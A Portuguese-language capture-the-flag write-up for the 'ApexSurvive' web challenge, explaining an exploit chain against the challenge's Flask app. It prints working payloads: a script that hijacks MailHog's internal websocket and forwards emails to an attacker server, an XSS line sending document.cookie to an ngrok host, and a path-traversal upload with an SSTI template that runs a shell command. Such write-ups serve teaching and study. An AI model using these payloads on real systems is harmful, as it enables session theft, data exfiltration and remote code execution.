


# Apexsurvie

>In a dystopian future, a group of Maze Runners faces a deadly labyrinth. To navigate it, they need vital intel on maze shifts and hidden passages. Your mission: hack into ApexSurvive, the black-market hub for survival gear, to obtain the key information. The Maze Runners' freedom depends on your skills. Time to infiltrate and hack the maze's lifeline. Good luck, hacker.

Dificuldade: __Insane__  
Código-fonte: Disponibilizado

__Obs:__ _Todos os arquivos referenciados foram disponibilizados no desafio._

Desenho da estrutura mostrando os pontos que utilizaremos para explorar a aplicação e conseguir capturar a flag.

_Desenho não mostra todos os endpoints da aplicação, apenas os importantes para realizar o exploit._

Analisando a aplicação, conseguimos verificar que existem 3 principais serviços. 
1. Um projeto Web rodando exposto na porta 1337. Esse serviço web é composto por dois principais endpoints, o `/challenge` que é o principal, e o `/email` que é um site que mostra todos os emails recebidos. Por onde é validado o primeiro acesso.
2. Mailhog é um servidor de email
3. Bot é uma aplicação que simula a validação de um administrador quando o endpoint `/challenge/api/report` é chamado. Abrindo um navegador headless autenticando como admin e acessando o endpoint `/challenge/product/{productID}`


## Autenticação e autorização

Analisando aplicação com cuidados, conseguimos perceber que ela está protegida por um processo de autenticação e autorização. Os novos usuários precisam realizar a validação do email para poder entrar na aplicação.

No arquivo `./challenge/application/middleware/middlewares.py` conseguimos olhar todo o métodos de autorização.
```python
def isVerified(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        decodedToken = kwargs.get('decodedToken')

        user = getUser(decodedToken['id'])

        if user['isConfirmed'] == 'unverified':
            return redirect('/challenge/settings?message=verify')
        return f(*args, **kwargs)
    return decorator

def isInternal(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        decodedToken = kwargs.get('decodedToken')

        user = getUser(decodedToken['id'])

        if user['isInternal'] != 'true':
            return response('Unauthorised access detected!'), 401
        return f(*args, **kwargs)
    return decorator

def isAdmin(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        decodedToken = kwargs.get('decodedToken')

        user = getUser(decodedToken['id'])
        
        if user['isAdmin'] != 'true':
            return response('Unauthorised access detected!'), 401
        return f(*args, **kwargs)
    return decorator
```

## Primeiro passo: Internal

Este passo é o mais difícil de todos.
A única maneira de conseguir o perfil Internal é confirmar um usuário que tem um email `@apexsurvive.htb`.

Conforme conseguimos validar no trecho do código `./challenge/application/database.py`
```python
def verifyEmail(token):
    user = query('SELECT * from users WHERE confirmToken = %s', (token, ), one=True)

    if user and user['isConfirmed'] == 'unverified':
        _, hostname = parseaddr(user['unconfirmedEmail'])[1].split('@', 1)
        
        if hostname == 'apexsurvive.htb':
            query('UPDATE users SET isConfirmed=%s, email=%s, unconfirmedEmail="", confirmToken="", isInternal="true" WHERE id=%s', ('verified', user['unconfirmedEmail'], user['id'],))
        else:
            query('UPDATE users SET isConfirmed=%s, email=%s, unconfirmedEmail="", confirmToken="" WHERE id=%s', ('verified', user['unconfirmedEmail'], user['id'],))
        
        mysql.connection.commit()
        return True
```

Porém, verificamos que o `/email` filtra todos os emails que não são enviadas para o `test@email.htb`. Ou seja, se cadastrarmos um usuário utilizando `@apexservive.htb`, não conseguiremos visualizar o email com o código de confirmação.

`./email-app/routes/index.js`
```javascript
router.get('/email/', async (req, res) => {
    const result = await mailhog.messages(0, 10)

    mails = []

    for (let item of result.items) {
        if (item.to == 'test@email.htb') {
            mails.push(item);
        }
    }

    return res.render('home.html', {result: mails});
});
```

O servidor de email é um Mailhog. Analisando [código-fonte](https://github.com/mailhog/MailHog-Server) conseguimos identificar um endpoint chamado `/api/v2/websocket`. Esse endpoint nos permitirá estabelecer uma conexão websocket e se registrar como listener do mailhog. Sendo assim, toda vez que um email for enviado para o mailhog ele irá enviar uma copia para todos os listeners.

Porém, o mailhog api está rodando na porta 9000 que não está exposta.
Conforme `./config/supervisord.conf
```conf
[program:mailhog]
command=/MailHog_linux_amd64 -api-bind-addr 127.0.0.1:9000 -ui-bind-addr 127.0.0.1:9000  -maildir-path /var/mail/ -storage maildir
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

O script a seguir irá utilizar o endpoint `/api/v2/websocket` para estabelecer uma conexão e monitorar e capturar todos os eventos enviados para os listeners e encaminhar para o nosso servidor.
```html
<html>
    <head>
    </head>
    <body>
        <script>
            function sendMessage(message) {
                fetch('/captureEmail?data=' + btoa(message))
            }
            
            const websocket = new WebSocket("ws://127.0.0.1:9000/api/v2/websocket");
            websocket.onmessage = function(event) {
                sendMessage(event.data);
            };

            websocket.onclose = function(event) {
                sendMessage('close');
            };
        </script>
    </body>
</html>
```

Para conseguir executar o nosso script dentro do servidor precisamos entender as primeiras vulnerabilidades da aplicação. 

Começando pelo código `./challenge/application/blueprints/routes.py`. Podemos validar que o endpoint `/challenge/external` recebe o parâmetro `url` e realiza redirecionamento para o mesmo.
```python
@web.route('/external')
def external():
    url = request.args.get('url', '')

    if not url:
        return redirect('/')
    
    return redirect(url)
```

No código `./challenge/application/blueprints/api.py`.
```python
@api.route('/report', methods=['POST'])
@isAuthenticated
@isVerified
@antiCSRF
@sanitizeInput
def reportProduct(decodedToken):
    productID = request.form.get('id', '')
   
    if not productID:
        return response('All fields are required!'), 401
    
    adminUser = getUser('1')

    params = {'productID': productID, 'email': adminUser['email'], 'password': adminUser['password']}

    requests.get('http://127.0.0.1:8082/visit', params=params)

    return response('Report submitted! Our team will review it')
```

Podemos validar que o parâmetro `productId` não é tipado, então podemos enviar qualquer tipo de informação para a aplicação, incluindo uma `string`. Sendo assim, podemos encaminhar o seguinte código: `../external?url={YOUR_SERVER}` que será encaminhado para o bot `/visit`.

No bot o `productID` é concatenado na URL. Ou seja, ao concatenar o nosso `productID`, o `client.get` irá tentar abrir a seguinte URL: `http://127.0.0.1:1337/challenge/product/../external?url={YOUR_SERVER}`.

Dessa forma, o navegador do admin será direcionado para o nosso servidor e o script será iniciado, abrindo uma conexão websocket e redirecionando todos os e-mails recebidos para o nosso servidor.
`./bot/app.py`
```python
@app.route('/visit')
def visit():
    productID = request.args.get('productID')
    email = request.args.get('email')
    password = request.args.get('password')

    thread = threading.Thread(target=bot, args=(productID, email, password))
    thread.start()
    return 'OK'

def bot(productID, email, password):
    chrome_options = Options()

    prefs = {
    "download.prompt_for_download": True,
    "download.default_directory": "/dev/null"
    }

    chrome_options.add_experimental_option(
        "prefs", prefs
    )

    """
    hidden code
    """
    
    client = webdriver.Chrome(options=chrome_options)
    
    client.get(f"https://127.0.0.1:1337/challenge/")

    time.sleep(3)
    client.find_element(By.ID, "email").send_keys(email)
    client.find_element(By.ID, "password").send_keys(password)
    client.execute_script("document.getElementById('login-btn').click()")

    time.sleep(3)
    client.get(f"https://127.0.0.1:1337/challenge/home")
    time.sleep(3)
    client.get(f"https://127.0.0.1:1337/challenge/product/{productID}")
    time.sleep(120)

    client.quit()
```



## Segundo passo: Administrator

As coisas começam a ficar simples a partir daqui.

Ao obter acesso como Internal, podemos perceber que temos acesso a novos endpoints.
`./challenge/application/blueprints/routes.py`
```python
@web.route('/product/addProduct')
@isAuthenticated
@isVerified
@isInternal
def addProduct(decodedToken):
    user = getUser(decodedToken.get('id'))
    return render_template('addProduct.html', user=user, antiCSRFToken=decodedToken.get('antiCSRFToken'))
```
`./challenge/application/blueprints/api.py`
```python
@api.route('/addItem', methods=['POST'])
@isAuthenticated
@isVerified
@isInternal
@antiCSRF
@sanitizeInput
def addItem(decodedToken):
    name = request.form.get('name', '')
    price = request.form.get('price', '')
    description = request.form.get('description', '')
    image = request.form.get('imageURL', '')
    note = request.form.get('note', '')
    seller = request.form.get('seller', '')

    if any(value == '' for value in [name, price, description, image, note, seller]):
        return response('All fields are required!'), 401

    newProduct = addProduct(name, image, description, price, seller, note)

    if newProduct:
        return response('Product Added')
    
    return response('Something went wrong!')
```

Percebemos que como Internal podemos adicionar novos produtos.

Analisando o código `./challenge/application/templates/product.html` 
```html
<script>
    let note = `{{ product.note | safe }}`;
    const clean = DOMPurify.sanitize(note, {FORBID_ATTR: ['id', 'style'], USE_PROFILES: {html:true}});

    document.getElementById('note').innerHTML += clean;
</script>
```

Podemos perceber que o trecho ``let note = `{{product.note | safe }}`; `` é vulnerável a __XSS__. Devido a possibilidade do `product.note` possuir o character `` ` ``.

Exemplo: `product.note` = ``<h1>Hello<h1>`; alert(1); var A =  `A``
Resultado ficará da seguinte forma:
```html
<script>
    let note = `<h1>Hello<h1>`; alert(1); var A =  `A`;
</script>
```

A ideia aqui é a mesma, criar um produto com o `note` possuindo o nosso __XSS__ (``<span>Hello</span>`;fetch('{self.ngrok}/receive?data='+btoa(document.cookie));var i = `A``). Direcionar o página do novo produto para o Admin via o endpoint `/challenge/api/report`.

Quando o bot abrir a página como administrator irá executar o nosso __XSS__ coletando o `document.cookie` e enviando para o nosso servidor.

## Passo final: Race Condition

Apesar de conceitualmente simples, essa etapa é a mais difícil de ser executada.

Como administrator podemos utilizar os seguintes endpoint:
`./challenge/application/blueprints/route.py`
```python
@web.route('/admin/contracts')
@isAuthenticated
@isVerified
@isInternal
@isAdmin
def addContract(decodedToken):
    user = getUser(decodedToken.get('id'))
    return render_template('addContracts.html', user=user, antiCSRFToken=decodedToken.get('antiCSRFToken'))
```
`./challenge/application/blueprints/api.py`
```python
@api.route('/addContract', methods=['POST'])
@isAuthenticated
@isVerified
@isInternal
@isAdmin
@antiCSRF
@sanitizeInput
def addContract(decodedToken):
    name = request.form.get('name', '')

    uploadedFile = request.files['file']

    if not uploadedFile or not name:
        return response('All files required!')
    
    if uploadedFile.filename == '':
        return response('Invalid file!')

    uploadedFile.save('/tmp/temporaryUpload')

    isValidPDF = checkPDF()

    if isValidPDF:
        try:
            filePath = os.path.join(current_app.root_path, 'contracts', uploadedFile.filename)
            with open(filePath, 'wb') as wf:
                with open('/tmp/temporaryUpload', 'rb') as fr:
                    wf.write(fr.read())

            return response('Contract Added')
        except Exception as e:
            print(e, file=sys.stdout)
            return response('Something went wrong!')
    
    return response('Invalid PDF! what are you trying to do?')
```

Essa novo perfil permite a realização de upload de PDF para o servidor.

Aplicação executa os seguintes passos:
1. Valida se todos os campos do __form__ foram preenchidos.
2. Salva o arquivo recebido temporariamente no `/tmp/temporaryUpload`.
3. Lê o arquivo `/tmp/temporaryUpload` e valida se ele é realmente um PDF, utilizando a biblioteca `pyPDF2`
4. Caso o arquivo seja realmente um PDF ele será copiado do `/tmp/temporaryUpload` para `current_app.root_path + contracts + uploadedFile.filename`.
	1. Sendo `current_app.root_path` é raiz da aplicação.
	2. `uploadFile.filename` é nome do arquivo recebido.

```python
filePath = os.path.join(current_app.root_path, 'contracts', uploadedFile.filename)
with open(filePath, 'wb') as wf:
    with open('/tmp/temporaryUpload', 'rb') as fr:
        wf.write(fr.read())
```

Primeiro ponto, podemos perceber que o arquivo é transferido da pasta temporária para dentro da aplicação, apenas se o arquivo for realmente um PDF.

Segundo ponto, o `os.path.join` garante o caminho absoluto do arquivo e o `uploadedFile.filename` pode ser manipulado por nós. 

Com isso em mente, podemos esperar o seguinte cenário. Enviando o arquivo com o nome (`uploadedFile.filename`) `../templates/info.html` o `filePath` irá ficar da seguinte forma: `/app/application/contracts/../templates/info.html`, ou seja, iremos sobrescrever o original `/app/application/templates/info.html` como arquivo que enviamos para o servidor.

Então podemos abusar de uma vulnerabilidade chamada __Race Condition__.
A ideia é enviar vários uploads, tanto de um PDF legítimo quanto de um `info.html` com um __SSTI__ para capturar a flag.
Nossa versão do `info.html`:
```html
<html>
<head>
</head>
<body>
    {{self.__init__.__globals__.__builtins__.__import__('os').popen('/readflag').read() }}
</body>
</html>
```

O objetivo é, gerar uma concorrência na aplicação, para que quando ela receba um arquivo de PDF legítimo o arquivo temporário seja sobrescrito pelo nosso código do `info.html` apenas no momento em que ele irá realizar a copia do arquivo temporário para dentro da aplicação.

No momento em que o __Race Condition__ obtiver sucesso, endpoint `/` retornará a flag.